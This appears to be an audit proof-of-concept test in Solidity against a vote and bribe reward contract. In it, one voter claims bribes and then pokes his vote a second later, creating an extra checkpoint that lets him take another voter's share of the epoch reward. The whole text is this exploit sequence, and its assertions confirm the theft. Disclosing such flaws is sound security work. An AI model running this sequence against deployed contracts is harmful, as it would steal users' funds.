 ```solidity
        weights[0] = 10000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;


        // Reward amount
        uint256 rewardAmount = TOKEN_100K;
        // Notify bribe for reward amount
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);

        // Alice Vote
        hevm.prank(alice);
        voter.vote(aliceTokenId, pools, weights, 0);
        // Bob Vote
        hevm.prank(bob);
        voter.vote(bobTokenId, pools, weights, 0);

        // Next epoch started
        hevm.warp(period + 2 weeks + 1 );
        voter.distribute();

        // Bob and Alice  rewarded  half of the reward each
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount/2);
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), rewardAmount/2);

        hevm.warp(period + 2 weeks + 1 days );

        // Alice referesh his vote statues
        hevm.prank(alice);
        voter.poke(aliceTokenId);


        // Bob did not like that alice sharing with him half of the full reward
        // He decided to trick the calculation of this epoch to steal Alice reward
        // First he claim his bribe, this will save a new checkpoint for his veALCX
        hevm.prank(bob);
        voter.claimBribes(bribes, tokens, bobTokenId);
        // Then. after 1 secound he poke his vote to be updated in another checkpoint
        hevm.warp(period + 2 weeks + 1 days + 1 seconds);
        hevm.prank(bob);
        voter.poke(bobTokenId);

        // Notify bribe for reward amount in this wpoch
        createThirdPartyBribe(bribeAddress, bal, rewardAmount);


        // Next epoch started
        hevm.warp(period + 4 weeks + 1);
        voter.distribute();

        // Now Alice has the right earned amount, 2 * half of reward amount (first epoch reward + secound)
        assertEq(IBribe(bribeAddress).earned(bal, aliceTokenId), (rewardAmount/2) * 2);

        // Since Bob has claim the reward of the first epoch,
        // He should earn only half of the reward of the secound epoch
        // But he the system gives him the full reward amount
        assertEq(IBribe(bribeAddress).earned(bal, bobTokenId), rewardAmount);

```